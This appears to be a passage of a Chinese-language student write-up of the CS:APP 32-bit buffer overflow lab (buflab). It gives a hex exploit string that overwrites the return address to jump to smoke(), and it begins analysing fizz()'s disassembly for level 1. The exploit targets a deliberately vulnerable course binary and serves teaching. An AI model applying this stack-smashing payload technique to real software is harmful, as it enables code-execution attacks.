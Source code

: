 ![Alt text](cc58e1961d4971dbfd0bca09777564b.jpg)
缓冲区大小0x28=40 bytes，加上开始push进来的%ebp总共44 bytes，覆盖完这44 bytes之后跳到smoke()即可  
smoke地址：0x08048c18  
同样注意大端小端的区别，我的机器是小端法  
buf：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00
18 8c 04 08 00 00 00 00
```
PASS

### level 1
阅读官方文档，要跳转到fizz()同时让%rdi=cookie   
观察fizz汇编，我们需要让getbuf跳转完的时候的位置处，下4字节要为地址0x804d108中储存的值（注意：如lab名称buflab32，这是模拟32位系统下程序，所以操作数最大32位，所以ret命令是取4字节作为返回地址的，而不是8字节！这也是为什么在汇编代码中没有看到%r**，都是%e**）  
```
08048c42 <fizz>:
 8048c42:	55                   	push   %ebp
 8048c43:	89 e5                	mov    %esp,%ebp
 8048c45:	83 ec 18             	sub    $0x18,%esp
 8048c48:	8b 45 08             	mov    0x8(%ebp),%eax
 8048c4b:	3b 05 08 d1 04 08    	cmp    0x804d108,%eax
 8048c51:	75 26                	jne    8048c79 <fizz+0x37>
```